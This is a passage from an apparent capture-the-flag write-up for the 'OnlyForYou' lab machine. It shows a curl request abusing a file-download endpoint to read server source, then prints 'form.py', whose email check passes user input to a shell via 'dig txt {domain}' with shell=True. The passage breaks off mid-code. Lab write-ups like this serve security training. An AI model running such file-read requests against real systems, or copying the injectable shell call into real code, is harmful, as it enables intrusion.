 ```python

if __name__ == '__main__':
    app.run(host='127.0.0.1', port=80, debug=False)
```

We don't see much here, but take a look at the imports associated. `flask` is a standard python module for web servers, and `uuid` is also commonly within the library. However, `form` is very generic and does not exist in the pip library. This is likely coming from another python file somewhere. Since non-library imports follow current working directory schema, we know that `form.py` will also exist in this same folder. If, perhaps, it existed in `tools/form.py`, we would see the import line reflect this: `from tools.form import sendmessage`.

Viewing form.py:
```
$ curl http://beta.only4you.htb/download -d "image=/var/www/only4you.htb/form.py"
```
Full code:
```python
import smtplib, re
from email.message import EmailMessage
from subprocess import PIPE, run
import ipaddress

def issecure(email, ip):
        if not re.match("([A-Za-z0-9]+[.-_])*[A-Za-z0-9]+@[A-Za-z0-9-]+(\.[A-Z|a-z]{2,})", email):
                return 0
        else:
                domain = email.split("@", 1)[1]
                result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
                output = result.stdout.decode('utf-8')
                if "v=spf1" not in output:
                        return 1
                else:
                        domains = []
                        ips = []
                        if "include:" in output:
                                dms = ''.join(re.findall(r"include:.*\.[A-Z|a-z]{2,}", output)).split("include:")
                                dms.pop(0)
                                for domain in dms:
                                        domains.append(domain)
                                while True:
                                        for domain in domains:
                                                result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
                                                output = result.stdout.decode('utf-8')
                                                if "include:" in output:
                                                        dms = ''.join(re.findall(r"include:.*\.[A-Z|a-z]{2,}", output)).split("include:")
                                                        domains.clear()
                                                        for domain in dms:
                                                                domains.append(domain)
                                                elif "ip4:" in output:
                                                        ipaddresses = ''.join(re.findall(r"ip4:+[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+[/]?[0-9]{2}", output)).split("ip4:")
                                                        ipaddresses.pop(0)
                                                        for i in ipaddresses:
                                                                ips.append(i)
                                                else:
                                                        pass
                                        break
                        elif "ip4" in output:
                                ipaddresses = ''.join(re.findall(r"ip4:+[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+[/]?[0-9]{2}", output)).split("ip4:")
```